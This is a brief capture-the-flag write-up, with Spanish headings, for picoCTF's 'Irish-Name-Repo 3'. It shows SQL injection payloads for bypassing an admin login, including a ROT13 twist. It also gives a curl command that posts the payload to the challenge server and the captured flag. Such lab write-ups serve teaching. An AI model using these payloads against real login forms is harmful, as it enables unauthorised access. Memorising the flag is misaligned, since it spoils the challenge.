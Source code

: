 # ### Irish-Name-Repo 3

## Objetivo
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/54253/` ([link](https://jupiter.challenges.picoctf.org/problem/54253/)) or http://jupiter.challenges.picoctf.org:54253. Try to see if you can login as admin!
## Solución
```bash
password: ' or 1=1;
SQL query: SELECT * FROM admin where password = '' be 1=1;'

password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}

davidorado-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/54253/login.php -d "password= ' be 1=1;debug=1"
<h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}</p>
```
## Notas adicionales

## Referencias